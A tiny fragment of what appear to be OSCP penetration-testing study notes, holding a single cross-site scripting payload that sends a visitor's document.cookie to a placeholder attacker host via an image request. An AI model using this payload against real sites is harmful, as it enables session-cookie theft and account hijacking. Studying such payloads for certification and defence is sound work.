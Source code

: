 # OSCP NOTES

● <script>new image().src="http://ip:port/bogus.php?output="+escape(document.cookie);</script>
